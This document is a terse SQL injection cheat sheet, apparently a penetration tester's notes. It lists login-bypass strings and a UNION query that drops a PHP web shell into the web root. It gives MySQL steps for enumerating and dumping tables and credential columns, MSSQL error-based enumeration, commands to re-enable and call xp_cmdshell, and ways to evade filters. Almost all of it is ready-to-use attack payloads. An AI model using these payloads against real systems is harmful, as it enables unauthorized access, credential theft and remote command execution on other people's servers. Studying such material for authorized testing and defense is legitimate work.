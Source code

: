 # SQL injection 

## Login Bypass:   << replace ' with " if fail
  ' or '1'='1
  ' or 1=1;-- 
  ' or 1=1;#
  ') or ('x'='x
  ' or <column> like '%';--
  ' or 1=1 LIMIT 1;-- 

  USERNAME:   ' or 1/*
  PASSWORD:   */ =1 --

  USERNAME: admin' or 'a'='a
  PASSWORD '#

If the database is mysql, try to dump all login info to files?

Mysql
  '*' 
  '&'
  '^'
  '-'
  ' or true;-- 
  ' or 1;--

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'

## Enumeration
1. Confirm number of columns
order by 1 -- 100

2. union select
union select 1,2,3,4,5,6,7 to find which column will display info

3. Find databse name, user name, and version.  << must use group_concat for one liner
(select group_concat(database(),0x3a,user(),0x3a,version()))

4. Find table name
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())

5. Find columns 
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out

6. Dump data
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)

One liner to output all corresponding databse with table and columns
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()

MSSQL Enumeration: Error based
https://www.exploit-db.com/papers/12975/

Enumerate column and table name
http://www.example.com/page.asp?id=1' HAVING 1=1--
Error message: Column 'news.news_id' is invalid                 < table_name.column

http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
Error message: Column 'news.news_author' is invalid           < table_name.column2

http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
Error message: Column 'news.news_detail' is invalid             < table_name.column3

Until no error

Enumerate version, db name, users:
http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

xp_cmdshell << if running as database admin
http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
'; exec master.dbo.xp_cmdshell 'command'



On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;-- 
EXEC sp_configure 'xp_cmdshell', 1;-- 
RECONFIGURE;--  

On MSSQL 2000:
EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--


# SQL filter bypass
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

AND, OR operators
AND = &&
OR = ||

Comment operator << Mysql
--
#
/**/

Regular expression
It is common that PHPIDS will block operators such as =, ', (), 
table_name = 'users' X
table_name between 'a' and 'z' X
table_name between char(97) and char(122) X

Convert strings to HEX format.
table_name between 0x61 and 0x7a
table_name like 0x7573657273

Change case
union > UniOn
select > SeLect

Inline comments << Mysql 5.0
/*! <sql operator> */
